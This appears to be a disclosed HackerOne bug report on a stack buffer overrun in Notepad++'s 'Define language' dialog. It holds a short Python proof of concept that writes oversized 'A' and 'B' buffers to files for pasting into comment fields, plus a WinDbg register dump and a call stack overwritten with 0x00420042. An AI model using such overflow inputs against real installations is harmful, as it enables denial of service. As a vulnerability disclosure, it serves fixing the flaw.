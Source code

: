 # Security check failure or stack buffer overrun (crash)

## Report Details
- **Report ID**: 481335
- **URL**: https://hackerone.com/reports/481335
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-01-17T10:56:38.288Z
- **Disclosed**: 2019-05-06T15:24:37.402Z

## Reporter
- **Username**: bi7s
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: notepad-plus-plus

## Vulnerability Information
poc.py

#1) Run poc.py
#2) Open notepad++.exe
#3) Go to "Define language..."
#4) Use tab "Comment and Number"
#5) Open 1st_field.txt and copy content to clipboard
#6) Paste clipboard on "Comment line style in field Open"
#7) Open 2nd_field.txt and copy content to clipboard
#8) Paste clipboard on "Comment line style in field Close"
#9) notepad++ is crash
#!/usr/bin/python
    
buffer1 = "A" * 20000
buffer2 = "B" * 11000

try:
    f=open("1st_filed.txt","w")
    print "[+] Creating %s bytes for 1st field." %len(buffer1)
    f.write(buffer1)
    f.close()
    print "[+] File created!"
except:
    print "File for 1st field cannot be created."
	
try:
    f=open("2nd_filed.txt","w")
    print "[+] Creating %s bytes for 2nd field." %len(buffer2)
    f.write(buffer2)
    f.close()
    print "[+] File for 2nd filed created!"
except:
    print "File for 2nd field cannot be created."



Debugger information:

ccc.600): Security check failure or stack buffer overrun - code c0000409 (!!! second chance !!!)
*** ERROR: Module load completed but symbols could not be loaded for npp.exe
npp+0x139d34:
00007ff6`8ee39d34 cd29            int     29h
0:000> r
rax=0000000000000001 rbx=0042004200420042 rcx=0000000000000002
rdx=0000009ec8b25b0e rsi=00007ff68ef96b90 rdi=0042004200420042
rip=00007ff68ee39d34 rsp=0000009ec8b07820 rbp=0000009ec8b25969
 r8=000001265173ef68  r9=0000009ec8b078a0 r10=0000000000000000
r11=0000000000000246 r12=0000000000180b4a r13=0000000000180b4a
r14=0000000000000111 r15=0000000000000001
iopl=0         nv up ei pl nz na pe nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000202
npp+0x139d34:
00007ff6`8ee39d34 cd29            int     29h
0:000> k
Child-SP          RetAddr           Call Site
0000009e`c8b07820 00007ff6`8ee211fa npp+0x139d34
0000009e`c8b07860 00420042`00420042 npp+0x1211fa
0000009e`c8b258e0 00420042`00420042 0x00420042`00420042
0000009e`c8b258e8 00420042`00420042 0x00420042`00420042
0000009e`c8b258f0 00420042`00420042 0x00420042`00420042
0000009e`c8b258f8 00420042`00420042 0x00420042`00420042
0000009e`c8b25900 00420042`00420042 0x00420042`00420042
0000009e`c8b25908 00420042`00420042 0x00420042`00420042
0000009e`c8b25910 00420042`00420042 0x00420042`00420042
0000009e`c8b25918 00420042`00420042 0x00420042`00420042
0000009e`c8b25920 00420042`00420042 0x00420042`00420042
0000009e`c8b25928 00420042`00420042 0x00420042`00420042
0000009e`c8b25930 00420042`00420042 0x00420042`00420042
0000009e`c8b25938 00420042`00420042 0x00420042`00420042
0000009e`c8b25940 00420042`00420042 0x00420042`00420042
0000009e`c8b25948 00420042`00420042 0x00420042`00420042
0000009e`c8b25950 00420042`00420042 0x00420042`00420042
0000009e`c8b25958 00420042`00420042 0x00420042`00420042
0000009e`c8b25960 00420042`00420042 0x00420042`00420042
0000009e`c8b25968 00420042`00420042 0x00420042`00420042
0000009e`c8b25970 00420042`00420042 0x00420042`00420042
0000009e`c8b25978 00420042`00420042 0x00420042`00420042
0000009e`c8b25980 00420042`00420042 0x00420042`00420042
0000009e`c8b25988 00420042`00420042 0x00420042`00420042
0000009e`c8b25990 00420042`00420042 0x00420042`00420042
0000009e`c8b25998 00420042`00420042 0x00420042`00420042
0000009e`c8b259a0 00420042`00420042 0x00420042`00420042
0000009e`c8b259a8 00420042`00420042 0x00420042`00420042
0000009e`c8b259b0 00420042`00420042 0x00420042`00420042
0000009e`c8b259b8 00420042`00420042 0x00420042`00420042
0000009e`c8b259c0 00420042`00420042 0x00420042`00420042
0000009e`c8b259c8 00420042`00420042 0x00420042`00420042
0000009e`c8b259d0 00420042`00420042 0x00420042`00420042
0000009e`c8b259d8 00420042`00420042 0x00420042`00420042
0000009e`c8b259e0 00420042`00420042 0x00420042`00420042
0000009e`c8b259e8 00420042`00420042 0x00420042`00420042
0000009e`c8b259f0 00420042`00420042 0x00420042`00420042
0000009e`c8b259f8 00420042`00420042 0x00420042`00420042
0000009e`c8b25a00 00420042`00420042 0x00420042`00420042
0000009e`c8b25a08 00420042`00420042 0x00420042`00420042
0000009e`c8b25a10 00420042`00420042 0x00420042`00420042
0000009e`c8b25a18 00420042`00420042 0x00420042`00420042
0000009e`c8b25a20 00420042`00420042 0x00420042`00420042
0000009e`c8b25a28 00420042`00420042 0x00420042`00420042
0000009e`c8b25a30 00420042`00420042 0x00420042`00420042
0000009e`c8b25a38 00420042`00420042 0x00420042`00420042
0000009e`c8b25a40 00420042`00420042 0x00420042`00420042
0000009e`c8b25a48 00420042`00420042 0x00420042`00420042
0000009e`c8b25a50 00420042`00420042 0x00420042`00420042
0000009e`c8b25a58 00420042`00420042 0x00420042`00420042
0000009e`c8b25a60 00420042`00420042 0x00420042`00420042
0000009e`c8b25a68 00420042`00420042 0x00420042`00420042
0000009e`c8b25a70 00420042`00420042 0x00420042`00420042
0000009e`c8b25a78 00420042`00420042 0x00420042`00420042
0000009e`c8b25a80 00420042`00420042 0x00420042`00420042
0000009e`c8b25a88 00420042`00420042 0x00420042`00420042
0000009e`c8b25a90 00420042`00420042 0x00420042`00420042
0000009e`c8b25a98 00420042`00420042 0x00420042`00420042
0000009e`c8b25aa0 00420042`00420042 0x00420042`00420042
0000009e`c8b25aa8 00420042`00420042 0x00420042`00420042
0000009e`c8b25ab0 00420042`00420042 0x00420042`00420042
0000009e`c8b25ab8 00420042`00420042 0x00420042`00420042
0000009e`c8b25ac0 00420042`00420042 0x00420042`00420042
0000009e`c8b25ac8 00420042`00420042 0x00420042`00420042
0000009e`c8b25ad0 00420042`00420042 0x00420042`00420042
0000009e`c8b25ad8 00420042`00420042 0x00420042`00420042
0000009e`c8b25ae0 00420042`00420042 0x00420042`00420042
0000009e`c8b25ae8 00420042`00420042 0x00420042`00420042
0000009e`c8b25af0 00420042`00420042 0x00420042`00420042
0000009e`c8b25af8 00420042`00420042 0x00420042`00420042
0000009e`c8b25b00 00200033`00300020 0x00420042`00420042
0000009e`c8b25b08 00000000`00340030 0x00200033`00300020
0000009e`c8b25b10 00000000`00000001 0x340030
0000009e`c8b25b18 0000009e`c8b25b20 0x1
0000009e`c8b25b20 00000000`00000000 0x0000009e`c8b25b20
0:000> q

## Impact

At least it's a denial of service.

## Attachments
No attachments
